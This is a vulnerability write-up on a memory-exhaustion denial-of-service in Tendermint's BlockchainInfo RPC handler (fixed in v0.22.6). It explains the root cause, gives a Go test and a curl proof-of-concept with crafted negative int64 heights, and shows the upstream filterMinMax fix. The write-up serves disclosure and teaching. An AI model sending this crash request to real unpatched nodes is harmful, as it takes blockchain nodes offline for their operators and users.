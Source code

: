 # 1. [DC-01] OOM out of For-loop by RPC

## 1.1. Tag

`RPC`

`For-loop`

`OOM`

## 1.2. Vulnerability description

This is a vulnerability submitted from `hackerone` platform. Malicious request `BlockchainInfo` could lead to an infinite loop, which runs out of the memory and makes the node crash.

## 1.3. Vulnerability analysis

File path：`rpc/core/blocks.go`

```go
func BlockchainInfo(minHeight, maxHeight int64) (*ctypes.ResultBlockchainInfo, error) {
    if minHeight == 0 {
        minHeight = 1
    }

    if maxHeight == 0 {
        maxHeight = blockStore.Height()
    } else {
        maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)
    }

    // maximum 20 block metas
    const limit int64 = 20
    minHeight = cmn.MaxInt64(minHeight, maxHeight-limit)

    logger.Debug("BlockchainInfoHandler", "maxHeight", maxHeight, "minHeight", minHeight)

    if minHeight > maxHeight {
        return nil, fmt.Errorf("min height %d can't be greater than max height %d", minHeight, maxHeight)
    }

    blockMetas := []*types.BlockMeta{}
    for height := maxHeight; height >= minHeight; height-- { // for-loop
        blockMeta := blockStore.LoadBlockMeta(height)
        blockMetas = append(blockMetas, blockMeta)
    }

    return &ctypes.ResultBlockchainInfo{blockStore.Height(), blockMetas}, nil
}
```

Attakcer can construct parameters below:

```go
minHeight = -9223372036854775808 (min int64)
maxHeight = -9223372036854775788 (minHeight + 20)
```

Note that in `maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)`, `MinInt64` returns the smaller value between two parameters, therefore we use the nagative `maxHeight`.

Note that the for-loop `for height := maxHeight; height >= minHeight; height-- {}`，`for-loop`, it can run infinitely. Though loop-times 9223372036854775807 (max int64) is reached, it can continue to proceed. Every time the block is not found, a `nil` will be appended to the vector `blockMetas`. At last, the number of appened `nil` can increase to a huge number to run out of memory.

## 1.4. Reproduce

Here we show you two methods to reproduce. One is by test script, another is by terminal.

### 1.4.1. Use go test script to test

File location : `rpc/core/blocks.go`

```golang
// XuanMao : Bug test
func TestBlockchainInfoForloop(t *testing.T) {
    config := cfg.ResetTestRoot("node_node_test")
    defer os.RemoveAll(config.RootDir)

    // create & start node
    n, err := DefaultNewNode(config, log.TestingLogger())
    require.NoError(t, err)
    err = n.Start()
    require.NoError(t, err)

    c := struct {
        min, max     int64
    }{
    -9223372036854775808, -9223372036854775788,
    }
    BlockchainInfo(c.min,c.max)
}
```

![1](./pic/1.png)

You can see that CPU and memory usage surge, and several minutes later the program crashes.

### 1.4.2. Reproduce POC

First, launch a node, then send a request to the interface(`e.g. 127.0.0.1:26657`):

```bash
curl 'http:///blockchain?minHeight=-9223372036854775808&maxHeight=-9223372036854775788'
```

You can see that CPU and memory usage surge, and several minutes later the program crashes.

## 1.5. Fix

Reference of this vulnerability: [Fix](https://github.com/tendermint/tendermint/commit/8dc655dad25b0b04f271cb66ba73fd504db3195d)

This vulnerability had been fixed in the version of `v0.22.6`.

### 1.5.1. Fix method：

Add `filterMinMax` and check the input parameter carefully.

1. check the input parameter value is not less than 0;
2. `min` must be less than `max`.
3. when `min` is 0, set the value to 1; when `max` is 0, set the value to the latest block height.

```golang
// error if either min or max are negative or min < max
// if 0, use 1 for min, latest block height for max
// enforce limit.
// error if min > max
func filterMinMax(height, min, max, limit int64) (int64, int64, error) {
    // filter negatives
    if min < 0 || max < 0 {
        return min, max, fmt.Errorf("heights must be non-negative")
    }

    // adjust for default values
    if min == 0 {
        min = 1
    }
    if max == 0 {
        max = height
    }

    // limit max to the height
    max = cmn.MinInt64(height, max)

    // limit min to within `limit` of max
    // so the total number of blocks returned will be `limit`
    min = cmn.MaxInt64(min, max-limit+1)

    if min > max {
        return min, max, fmt.Errorf("min height %d can't be greater than max height %d", min, max)
    }
    return min, max, nil
}
```

## 1.6. Reference

Vulnerable code from : [Link](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)

You can check related issue [here](https://github.com/tendermint/tendermint/issues/2049).
